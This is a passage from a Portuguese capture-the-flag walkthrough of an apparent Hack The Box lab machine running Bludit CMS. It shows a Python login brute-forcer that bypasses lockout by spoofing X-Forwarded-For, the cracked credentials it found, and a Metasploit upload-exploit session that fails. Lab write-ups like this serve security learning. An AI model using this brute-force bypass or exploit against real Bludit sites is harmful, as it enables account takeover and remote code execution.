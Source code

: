 ```py

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

```bash
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```
Resultado do script ^

Depois disso vc vai ver que tem uma aplicação chamada Bludit CMS rodando no site dentro do 
#http://10.10.10.191/admin/dashboard

Você pode procurar o exploit na internet dessa aplicação
#https://www.exploit-db.com/exploits/47699

```bash
msf5 > use exploit/linux/http/bludit_upload_images_exec
msf5 exploit(linux/http/bludit_upload_images_exec) > set TARGET 0
TARGET => 0
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS 10.10.10.191
RHOSTS => 10.10.10.191
msf5 exploit(linux/http/bludit_upload_images_exec) > set RPORT 80
RPORT => 80
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > exploit

[-] Exploit failed: An exploitation error occurred.
[*] Exploit completed, but no session was created.
msf5 exploit(linux/http/bludit_upload_images_exec) > options 
```
Erro encontrado ao rodar o metasploit
